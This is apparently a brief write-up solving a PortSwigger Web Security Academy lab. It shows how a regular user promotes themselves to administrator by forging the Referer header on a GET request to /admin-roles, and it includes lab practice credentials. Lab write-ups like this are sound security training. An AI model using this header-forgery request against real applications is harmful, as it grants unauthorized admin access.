 
# Referer-based access control

This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator.

---------------------------------------------

References: 

- https://portswigger.net/web-security/access-control



![img](images/Referer-based%20access%20control/1.png)

---------------------------------------------

The process to upgrade the user is generated from the admin panel with a GET request:



![img](images/Referer-based%20access%20control/2.png)


But with “wiener” we get an unauthorized error:



![img](images/Referer-based%20access%20control/3.png)


It works chaning the “Referer” header to /admin:

```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
...
Referer: https://0afd00fc039e68c881769dfa009b00b8.web-security-academy.net/admin
...
```



![img](images/Referer-based%20access%20control/4.png)